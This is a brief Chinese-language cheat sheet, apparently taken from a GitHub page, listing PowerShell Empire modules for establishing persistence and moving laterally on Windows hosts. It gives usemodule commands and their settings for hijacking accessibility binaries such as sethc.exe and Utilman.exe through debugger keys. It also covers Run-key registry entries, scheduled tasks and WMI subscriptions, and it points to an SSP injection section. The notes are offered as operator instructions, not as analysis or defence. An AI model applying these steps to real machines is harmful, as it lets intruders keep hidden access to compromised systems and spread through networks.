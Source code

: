   ##### 映像劫持
	>usemodule lateral_movement/invoke_wmi_debugger
	设置Listener，ComputerName(大写)，TargetBinary(sethc.exe, Utilman.exe, osk.exe, Narrator.exe, Magnify.exe)，分别是粘滞键，轻松访问，屏幕键盘，讲述人，放大镜。
  ##### 注入注册表启动项
	>usemodule persistence/elevated/registry*
	设置Listener，注册表路径RegPath [HKLM\software\microsoft\windows\currentversion\run]
  ##### 计划任务
	>usemodule persistence/elevated/schtasks*
	设置Listener和DailyTime
  ##### WMI
	>usemodule persistence/elevated/wmi
	设置Listener
  ##### 注入SSP
	查看SSP章节